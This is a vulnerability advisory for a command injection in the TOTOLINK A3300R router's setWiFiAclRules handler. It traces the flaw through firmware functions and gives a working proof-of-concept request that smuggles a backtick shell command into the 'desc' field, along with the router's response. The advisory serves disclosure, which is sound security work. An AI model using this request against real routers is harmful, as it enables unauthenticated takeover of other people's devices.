 # setWiFiAclRules (A3300R)

**Overview**

- Vendor: TOTOLINK
- Product: Totolink A3300R
- Version: V17.0.0cu.596_B20250515
- Manufacturer's address：[https://www.totolink.net/](https://www.totolink.net/)
- Firmware download address : [https://www.totolink.net/data/upload/20250515/8c0a04842e9e10188d0822b7b19cf212.web](https://www.totolink.net/data/upload/20250515/8c0a04842e9e10188d0822b7b19cf212.web)
- Author: Hiw0rl4 and Phl from VietSunshine Cyber Security Services

**Vulnerability details**

Totolink A3300R_Latest V17.0.0cu.596_B20250515 was found to contain a command injection vulnerability in the `sub_4197C0` function via the `mac, desc` parameters. This vulnerability allows unauthenticated attackers to execute arbitrary commands via a crafted request.

**Analyse**

- In the binary file `shttp`, the function `sub_4197C0` retrieves the `mac` and `desc` parameters, uses the `snprintf` function to format a string by concatenating the two parameters, and then passes the resulting string to the function `wificonf_add_by_key`

![image.png](setWiFiAclRules%20(A3300R)%202108aff2dc8b80348d94e7fd1378d475/image.png)

- In the binary file `libcscommon.so` , the function `wificonf_add_by_key` passes the value of `a3` to `v12`, then calls the function `csteSystem()`

![image.png](setWiFiAclRules%20(A3300R)%202108aff2dc8b80348d94e7fd1378d475/image%201.png)

**Request**

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.4:1380
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 127
Origin: http://192.168.1.4:1380
Connection: keep-alive
Referer: http://192.168.1.4:1380/login.html
X-PwnFox-Color: blue
Priority: u=0

{"mac":"14:16:9E:CC:BB:3F","desc":"hihihohohaha`ls>/web/cmdi2.txt`","addEffect":"1","wifiIdx":"0","topicurl":"setWiFiAclRules"}
```

**Response**

```python
HTTP/1.0 200 OK
Server: SHTTPD 1.42
Date: Wed, 11 Jun 2025 15:47:38 GMT
X-UA-Compatible: IE=edge
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Expires: -1
Content-Type: application/json
Connection: close

{ "success": true, "error": "", "lan_ip": "", "wtime": "5", "reserv": "reserv" }
```

**PoC**

![image.png](setWiFiAclRules%20(A3300R)%202108aff2dc8b80348d94e7fd1378d475/image%202.png)

![image.png](setWiFiAclRules%20(A3300R)%202108aff2dc8b80348d94e7fd1378d475/image%203.png)

**Reference:** 

- [https://github.com/phieulang1993/emu/tree/master/emu_arm](https://github.com/phieulang1993/emu/tree/master/emu_arm)